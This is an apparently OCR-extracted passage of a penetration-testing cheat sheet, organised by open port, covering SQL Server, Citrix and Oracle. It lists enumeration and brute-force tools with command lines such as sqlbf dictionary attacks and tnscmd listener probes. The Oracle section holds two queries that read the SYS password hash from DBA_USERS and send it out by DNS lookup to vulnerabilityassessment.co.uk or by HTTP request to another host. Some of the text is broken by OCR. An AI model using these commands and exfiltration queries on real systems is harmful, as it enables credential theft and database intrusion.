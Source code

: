     SQL Enumeration
        piggy
        SQLPing
            sqlping ip_address/hostname
        SQLPing2
        SQLPing3
        SQLpoke
        SQL Recon
        SQLver
    SQL Brute Force
        SQLPAT
            sqlbf -u hashes.txt -d dictionary.dic -r out.rep - Dictionary Attack
            sqlbf -u hashes.txt -c default.cm -r out.rep - Brute-Force Attack
        SQL Dict
        SQLAT
        Hydra
        SQLlhf
        ForceSQL

### Citrix port 1494 open
    Citrix Enumeration
        Default Domain
        Published Applications
            ./citrix-pa-scan {IP_address/file | - | random} [timeout]
            citrix-pa-proxy.pl IP_to_proxy_to [Local_IP]
    Citrix Brute Force
        bforce.js
        connect.js
        Citrix Brute-forcer
        Reference Material
            Hacking Citrix - the legitimate backdoor
            Hacking Citrix - the forceful way

## Oracle Port 1521 Open
    Oracle Enumeration
        oracsec
        Repscan
        Sidguess
        Scuba
        DNS/HTTP Enumeration
            SQL> SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE US ERNAME='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL; SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE USERNAM E='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL

            SQL> select utl_http.request('http://gladius:5500/'||(SELECT PASSWORD FROM DBA_USERS WHERE USERNAME='SYS')) from dual;
        WinSID
        Oracle default password list
        TNSVer
            tnsver host [port]
        TCP Scan
        Oracle TNSLSNR
            Will respond to: [ping] [version] [status] [service] [change_password] [help] [reload] [save_config] [set log_directory] [set display_mode] [set log_file] [show] [spawn] [stop]
        TNSCmd
            perl tnscmd.pl -h ip_address
            perl tnscmd.pl version -h ip_address
            perl tnscmd.pl status -h ip_address
            perl tnscmd.pl -h ip_address --cmdsize (40 - 200)
        LSNrCheck
        Oracle Security Check (needs credentials)
        OAT
            sh opwg.sh -s ip_address